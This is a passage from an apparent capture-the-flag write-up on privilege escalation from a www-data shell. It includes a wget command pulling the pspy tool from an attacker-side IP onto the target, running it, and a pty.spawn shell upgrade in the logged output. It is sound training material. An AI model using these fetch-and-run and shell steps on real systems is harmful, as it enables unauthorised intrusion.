 so far we have a low priv shell running as `www-data`

### Privilege Escalation

- I ran `linpeas` but no usefull results. except `www-data` can run `tcpdump`
- `sudo -l` returns nothing useful
- got a hint for running `Pspy`. you can download it here: https://github.com/DominicBreuker/pspy/releases/tag/v1.2.0

- running `PSPY`
  
     ```bash
     # download to the BOX
     wget http://10.17.4.40/pspy64s
     wget http://10.17.4.40/pspy64s
     --2021-07-20 23:03:43--  http://10.17.4.40/pspy64s
     Connecting to 10.17.4.40:80... connected.
     HTTP request sent, awaiting response... 200 OK
     Length: 1156536 (1.1M) [application/octet-stream]
     Saving to: 'pspy64s'

     pspy64s             100%[===================>]   1.10M   538KB/s    in 2.1s    

     2021-07-20 23:03:46 (538 KB/s) - 'pspy64s' saved [1156536/1156536]

     ## give +x & run; wait for new process to spin


     chmod +x pspy64s; ./pspy64s
     pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


          ██▓███    ██████  ██▓███ ▓██   ██▓
     ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
     ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
     ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
     ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
     ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
     ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
     ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                    ░           ░ ░     
                                   ░ ░ 

     ...
     2021/07/20 23:05:06 CMD: UID=33   PID=1877   | python -c import pty; pty.spawn("/bin/sh") 
     # my shell

     2021/07/20 23:06:01 CMD: UID=0    PID=20564  | /bin/sh /root/req.sh 
     2021/07/20 23:06:01 CMD: UID=0    PID=20563  | /bin/sh /root/req.sh 
     2021/07/20 23:06:01 CMD: UID=0    PID=20562  | /bin/sh -c /root/req.sh 
     # well root is trying to run something!!
     ```
